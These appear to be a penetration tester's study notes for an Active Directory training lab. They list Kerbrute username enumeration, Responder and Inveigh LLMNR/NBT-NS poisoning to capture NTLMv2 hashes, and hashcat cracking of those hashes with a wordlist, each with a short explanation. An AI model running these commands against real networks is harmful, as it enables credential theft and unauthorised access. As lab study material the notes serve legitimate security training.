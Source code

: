 ```Shell
./kerbrute_linux_amd64
```
Used to test the chosen complied Kebrute binary from a Linux-based host. #kerbrute 

```Shell
sudo mv kerbrute_linux_amd64 /usr/local/bin/kerbrute
```
Used to move the Kerbrute binary to a directory can be set to be in a Linux user's path. Making it easier to use the tool. #kerbrute

```Shell
./kerbrute_linux_amd64 userenum -d INLANEFREIGHT.LOCAL --dc 172.16.5.5 jsmith.txt -o kerb-results
```
Runs the Kerbrute tool to discover usernames in the domain (INLANEFREIGHT.LOCAL) specified proceeding the -d option and the associated domain controller specified proceeding --dcusing a wordlist and outputs (-o) the results to a specified file. Performed from a Linux-based host. #kerbrute  ^e39752

## LLMNR/NBT-NS Poisoning

#### Starts Responder w/ Default Settings
```shell
responder -I ens224
```
Starts Responder w/ listener on NIC ens224 #responder  ^a8110d

#### Crack captured hashes
```cmd.exe
hashcat -m 5600 forend_ntlmv2 /usr/share/wordlists/rockyou.txt
```
Uses hashcat to crack NTLMv2 (-m) hashes that were captured by responder and saved in a file (frond_ntlmv2). The cracking is done based on a specified wordlist. #hashcat #ntlm #nthashes  ^9d16b8

#### Import Inveigh
```PowerShell
Import-Module .\Inveigh.ps1
```
Using the Import-Module PowerShell cmd-let to import the Windows-based tool Inveigh.ps1. #inveigh #sniffing #ntlm #nthashes  ^39704d

```PowerShell
(Get-Command Invoke-Inveigh).Parameters
```
Used to output many of the options & functionality available with Invoke-Inveigh. Peformed from a Windows-based host. #inveigh #sniffing #ntlm #nthashes 

#### Start Inveigh
```PowerShell
Invoke-Inveigh Y -NBNS Y -ConsoleOutput Y -FileOutput Y
```
Starts Inveigh on a Windows-based host with LLMNR & NBNS spoofing enabled and outputs the results to a file. ^90378b

```PowerShell
GET NTLMV2UNIQUE
```
Shows unique hashes captured on Inveigh
